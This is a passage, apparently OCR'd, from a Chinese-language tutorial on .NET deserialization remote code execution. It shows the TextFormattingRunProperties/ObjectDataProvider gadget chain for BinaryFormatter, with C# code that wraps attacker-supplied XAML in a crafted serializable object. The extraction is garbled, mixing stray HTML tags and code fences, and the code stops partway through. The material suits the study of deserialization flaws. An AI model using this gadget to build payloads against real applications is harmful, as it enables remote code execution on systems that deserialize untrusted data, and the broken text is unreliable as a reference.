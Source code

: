 对于ResourceDictionary的RCE代码,`XamlReader.Parse()`解析即可触发

```
xml.Deserialize(memoryStream)</code>中的反序列化的值是否可控。</p> </li></ol>
<h3>BinaryFormatter</h3>
命名空间位于`System.Runtime.Serialization.Formatters.Binary`
<h4>反序列化链</h4>
yso中的很多gadget链都是由TextFormattingRunProperties链衍生的
<h5>TextFormattingRunProperties</h5>
限制条件：Microsoft.PowerShell.Editor.dll
<pre><code>该库是PowerShell的一部分，该PowerShell已预安装在从Windows Server 2008 R2和Windows 7开始的所有Windows版本中。
```

#### 反序列化链

**调用的类** : TextFormattingRunProperties + ObjectDataProvider + Process

**思路**：我们在GetObjectData序列化时给ForegroundBrush字段赋值为`_xaml`的payload，并且将对象类型赋值为TextFormattingRunProperties类。因为在反序列化时触发TextFormattingRunProperties类的构造函数，而构造函数中，调用的`GetObjectFromSerializationInfo`,触发XamlReader.Parse(payload) ，就衔接上了ObjectDataProvider

**Sink关键点**：`XamlReader.Parse`

我们需要的就是传入的payload就是可以被`XamlReader.Parse`解析的ObjectDataProvider的xml

```
using System;
using System.IO;
using System.Runtime.Serialization;
using System.Runtime.Serialization.Formatters.Binary;
using Microsoft.VisualStudio.Text.Formatting;
namespace BinaryFormatterSerialize
{
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }

        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string xaml)
        {
            _xaml = xaml;
        }
    }
    class Program
    {
        static void Main(string[] args)
        {
            string xaml_payload = File.ReadAllText(@"C:\Users\ddd\source\repos\xml.txt");
            TextFormattingRunPropertiesMarshal payload = new TextFormattingRunPropertiesMarshal(xaml_payload);

            using (MemoryStream memoryStream = new MemoryStream())
            {
                // 构建formatter
                BinaryFormatter binaryFormatter = new BinaryFormatter();
                binaryFormatter.Serialize(memoryStream, payload);
                memoryStream.Position = 0;
```